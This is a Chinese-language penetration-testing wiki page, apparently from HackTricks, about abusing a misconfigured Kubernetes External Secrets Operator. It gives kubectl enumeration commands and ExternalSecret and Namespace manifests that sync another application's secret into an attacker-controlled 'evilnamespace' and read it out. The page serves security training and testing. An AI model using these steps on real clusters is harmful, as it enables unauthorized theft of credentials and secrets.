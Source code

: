 # External Secret Operator

{{#include ../../banners/hacktricks-training.md}}

**该页面的原作者是** [**Fares**](https://www.linkedin.com/in/fares-siala/)

本页面提供了一些关于如何从配置错误的 ESO 或使用 ESO 同步其秘密的应用程序中窃取秘密的指引。

## 免责声明

下面展示的技术仅在满足某些条件时有效。例如，它依赖于允许在您拥有/已攻陷的命名空间中同步秘密的要求。您需要自己找出这些条件。

## 先决条件

1. 在具有命名空间管理员权限的 kubernetes / openshift 集群中获得立足点
2. 在集群级别至少对 ExternalSecret 具有读取权限
3. 确定是否需要任何标签/注释或组成员资格，以允许 ESO 同步您的秘密。如果您运气好，您可以自由窃取任何定义的秘密。

### 收集有关现有 ClusterSecretStore 的信息

假设您有足够权限读取此资源的用户；首先列出现有的 _**ClusterSecretStores**_。
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret 枚举

假设您找到了一个名为 _**mystore**_ 的 ClusterSecretStore。继续枚举其关联的 externalsecret。
```sh
kubectl get externalsecret -A | grep mystore
```
_这个资源是命名空间范围的，因此除非您已经知道要查找哪个命名空间，否则请添加 -A 选项以查看所有命名空间。_

您应该会得到一个已定义的 externalsecret 列表。假设您找到了一个名为 _**mysecret**_ 的 externalsecret 对象，该对象由命名空间 _**mynamespace**_ 定义和使用。收集更多关于它持有什么类型的秘密的信息。
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### 组装各个部分

从这里你可以获取一个或多个秘密名称（如在 Secret 资源中定义的）。你将得到类似于以下的输出：
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
到目前为止，我们得到了：

- ClusterSecretStore 的名称
- ExternalSecret 的名称
- 秘密的名称

现在我们有了所需的一切，您可以创建一个 ExternalSecret（并最终修补/创建一个新的 Namespace，以符合同步新秘密所需的先决条件）：
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
在几分钟后，如果满足同步条件，您应该能够在您的命名空间中查看泄露的秘密。
```sh
kubectl get secret leaked_secret -o yaml
```
## 参考

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}



{{#include ../../banners/hacktricks-training.md}}
